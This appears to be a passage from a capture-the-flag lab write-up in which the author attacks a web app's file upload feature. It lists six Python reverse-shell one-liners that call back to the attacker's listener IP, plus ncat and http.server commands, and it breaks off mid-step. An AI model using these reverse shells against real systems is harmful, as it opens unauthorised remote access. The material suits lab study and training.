


As after getting the homepage ip from the room page



After getting the roompage look we hit the ip in the browser.

Now after acessing the homepage into our browser



This was our first look of our target. Here tappable item were change the profile picture and type the messege  messege and send.

Now as we heard that we can uplaod something.

we did try with diffrent reverse shells with the listerner running **ncat -lvnp 1234** like 

reverse shell 1

```
export RHOST="10.49.145.217";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

``` 
Reverse shell 2

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.49.145.217",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

reverse shell 3

```
export RHOST="10.49.145.217";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

reverse shell 4

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.49.145.217",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

reverse shell 5

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.49.145.217",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

reverse shell 6

```
import os,socket,subprocess;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.29.213",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);
```

I uploaded each reverse shell file at the location of uploading the file.

But no one gave me a connection back.

Now we will hold our step back and try to attack back.

Now first of all before jumping straight into the reverse shell lets see its reacts to the payload we uplaod or not. if it reacts it can be feed with a rev shell.


So first we will see that it is making a impact or not by opening a python server with the command

```
python -m http.server 5555
```

And i
